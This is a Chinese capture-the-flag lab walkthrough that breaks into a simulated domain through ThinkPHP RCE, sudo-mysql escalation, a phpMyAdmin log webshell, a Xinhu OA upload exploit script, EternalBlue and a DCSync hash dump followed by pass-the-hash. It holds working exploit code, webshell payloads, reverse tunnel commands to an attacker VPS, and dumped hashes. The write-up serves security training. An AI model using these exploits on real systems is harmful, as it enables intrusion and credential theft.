# 春秋云镜—专业徽章—Initial-先知社区

> **来源**: https://xz.aliyun.com/news/16428  
> **文章ID**: 16428

---

# 靶标介绍

> Initial是一套难度为简单的靶场环境，完成该挑战可以帮助玩家初步认识内网渗透的简单流程。该靶场只有一个flag，各部分位于不同的机器上。

# 考查点

* thinkphp 5.0.23 RCE
* mysql sudo提权
* 信呼nday
* 内网隧道
* phpmyadmin漏洞
* ms17-010(永恒之蓝)
* DCSync

# 拓扑图



# 外网打点

## 信息收集

### 全端口扫描

使用Tscan进行扫描



可以看到开放了SSH和HTTP服务

### 指纹识别



看环境是thinkphp，用集成攻击工具然后getshell。

## 漏洞发现

<https://github.com/Lotus6/ThinkphpGUI>



## 漏洞利用



```
(www-data:/var/www/html) $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
(www-data:/var/www/html) $ sudo -l
Matching Defaults entries for www-data on ubuntu-web01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on ubuntu-web01:
    (root) NOPASSWD: /usr/bin/mysql
```

## ‍提权

连上蚁剑终端发现权限比较低，先查看suid命令

‍尝试一下suid提权发现没有可利用的点

```
find / -perm -g=s -type f 2>/dev/null
```

然后使用sudo提权，发现 mysql 是配置了 sudo 免密使用，可以使用 mysql 命令暂时获取 root 权限，想要执行其他命令，可以使用 mysql -e

模式

```
sudo mysql -e '\! cat /root/flag/f*'
```



# 内网渗透

## fscan信息收集

```
(www-data:/var/www/html) $ ls
favicon.ico
fscan-gw
index.php
peiqi.php
robots.txt
router.php
static
(www-data:/var/www/html) $ chmod 777 fscan-gw
(www-data:/var/www/html) $ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:16:3e:23:11:8f brd ff:ff:ff:ff:ff:ff
    inet 172.22.1.15/16 brd 172.22.255.255 scope global dynamic eth0
       valid_lft 315359245sec preferred_lft 315359245sec
    inet6 fe80::216:3eff:fe23:118f/64 scope link 
       valid_lft forever preferred_lft forever
(www-data:/var/www/html) $ ./fscan-gw -h 172.22.1.0/24
```

扫描结果如下

```
172.22.1.15:80 open
172.22.1.2:445 open
172.22.1.21:445 open
172.22.1.21:139 open
172.22.1.18:139 open
172.22.1.2:139 open
172.22.1.21:135 open
172.22.1.18:135 open
172.22.1.2:135 open
172.22.1.18:80 open
172.22.1.15:22 open
172.22.1.18:445 open
172.22.1.21:3389 open
172.22.1.18:3389 open
172.22.1.2:3389 open
172.22.1.18:3306 open
172.22.1.2:88 open
[*] NetInfo 
[*]172.22.1.21
   [->]XIAORANG-WIN7
   [->]172.22.1.21
[*] NetInfo 
[*]172.22.1.18
   [->]XIAORANG-OA01
   [->]172.22.1.18
[*] NetInfo 
[*]172.22.1.2
   [->]DC01
   [->]172.22.1.2
[*] WebTitle http://172.22.1.15        code:200 len:5578   title:Bootstrap Material Admin
NetBios 172.22.1.2      [+] DC:DC01.xiaorang.lab             Windows Server 2016 Datacenter 14393
[+] MS17-010 172.22.1.21    (Windows Server 2008 R2 Enterprise 7601 Service Pack 1)
[*] OsInfo 172.22.1.2   (Windows Server 2016 Datacenter 14393)
NetBios 172.22.1.18     XIAORANG-OA01.xiaorang.lab          Windows Server 2012 R2 Datacenter 9600
NetBios 172.22.1.21     XIAORANG-WIN7.xiaorang.lab          Windows Server 2008 R2 Enterprise 7601 Service Pack 1
[*] WebTitle http://172.22.1.18        code:302 len:0      title:None 跳转url: http://172.22.1.18?m=login
[*] WebTitle http://172.22.1.18?m=login code:200 len:4012   title:信呼协同办公系统
[+] PocScan http://172.22.1.15 poc-yaml-thinkphp5023-method-rce poc1
```

172.22.1.15就不用看了，172.22.1.21是个存在永恒之蓝的Win7，172.22.1.18是个信呼OA的系统，172.22.1.2是个域控

## iox搭内网隧道

vps

```
root@vps:~# chmod 777 iox
root@vps:~# ./iox proxy -l 4444 -l 1080
```

目标机

```
(www-data:/var/www/html) $ chmod 777 iox
(www-data:/var/www/html) $ ./iox proxy -r IP:4444
```

攻击机

```
cat /etc/proxychains4.conf | tail -1
socks5  IP  1080
```



## phpmyadmin组合拳

Tscan目录扫描，扫出一个phpmyadmin



爆破出账号密码



第一步先执行`show variables like 'general%';`查看是否开启日志以及存放的日志位置

第二步`set global general_log = ON;`开启日志

第三步`set global general_log_file`设置日志保存位置

最后`select '<?php eval($_POST[cmd]);?>';`写入webshell





## 信呼OA Nday

访问目标内网信呼OA成功

尝试出弱口令admin/admin123登录成功


后面查了一下发现信呼OA 存在一个RCE的漏洞

要准备一个1.php放在脚本相同的目录下，内容为一句话木马，内容为:`<?=eval($_POST[1]);?>`

EXP如下：

```
import requests
session = requests.session()
url_pre = 'http://172.22.1.18/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=11'
data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'YWRtaW4=',
    'adminpass': 'YWRtaW4xMjM=',
    'yanzm': ''
}
r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r+')})
filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
id = r.json()['id']
print(id)
print(filepath)
url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'
r = session.get(url3)
r = session.get(url_pre + filepath + "?1=system('dir');")
print(r.text)
```



回显出来的就是写进去一句话木马的路径，访问路径就可以执行命令，然后在蚁剑上配置一下代理，如果不配的代理话蚁剑也是没法直接访问到内网的。





然后就是打内网的另一台有永恒之蓝漏洞的服务器172.22.1.21

msf走proxychains4代理

```
proxychains4 msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp_uuid
set RHOSTS 172.22.1.21
exploit
```

## chisel搭内网隧道

这里遇到一个问题，不知道是我操作问题还是iox的问题，msf死活没正向会话建立，后面没办法换`chisel`就好了。

vps

```
./chisel server -p 1234 --reverse
```

目标机

```
./chisel client IP:1234 R:0.0.0.0:9383:socks
```

攻击机

```
cat /etc/proxychains4.conf | tail -1
socks5  IP  9383
```

## ms17\_010

试了一下不出网，采用正向监听即可



打完获得一个正向连接的shell

DCSync（域控制器同步）攻击利用的是域控制器之间的数据同步复制机制。在Active Directory（AD）环境中，不同的域控制器（DC）会定期（默认每15分钟）进行数据同步，以确保整个域内信息的一致性。DCSync攻击通过模拟一台域控制器向真实域控制器发送数据同步请求，从而获取用户凭据数据。

* 利用Windows RPC协议，无需登录域控制器或在域控制器上落地文件，避免触发EDR（Endpoint Detection and Response）告警。
* 是一种非常隐蔽的凭据窃取方式，适用于高级持续性威胁（APT）等场景。

DCSync攻击前提必须获得以下任一用户的权限：

* Administrators 组内的用户
* Domain Admins 组内的用户
* Enterprise Admins 组内的用户
* 域控制器的计算机帐户

用永恒之蓝打完就是system权限，load kiwi抓取用户的hash

```
meterpreter > load kiwi
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
meterpreter > kiwi_cmd "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[DC] 'xiaorang.lab' will be the domain
[DC] 'DC01.xiaorang.lab' will be the DC server
[DC] Exporting domain 'xiaorang.lab'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
502     krbtgt  fb812eea13a18b7fcdb8e6d67ddc205b        514
1106    Marcus  e07510a4284b3c97c8e7dee970918c5c        512
1107    Charles f6a9881cd5ae709abb4ac9ab87f24617        512
1000    DC01$   54ed1db3a47a1daf57d32e126e57e322        532480
500     Administrator   10cf89a850fb1cdbe6bb432b859164c8        512
1104    XIAORANG-OA01$  6453e1d291333aca2bf361933063c99a        4096
1108    XIAORANG-WIN7$  749114c87a6d02b7961142c18660c8c0        4096

mimikatz(powershell) # exit
```

‍拿到所有用户的hash，172.22.1.2 的 445 端口开放，利用 smb 哈希传递，直接用 kali 自带的 crackmapexec攻击

```
proxychains crackmapexec smb 172.22.1.2 -u administrator -H10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"
```





参考文章:

[[春秋云镜] Initial - MiaCTFer - 博客园 (cnblogs.com)](https://www.cnblogs.com/MiaCTFer/p/18262627/spring-and-autumn-cloud-mirror-initial-zwd5ss)

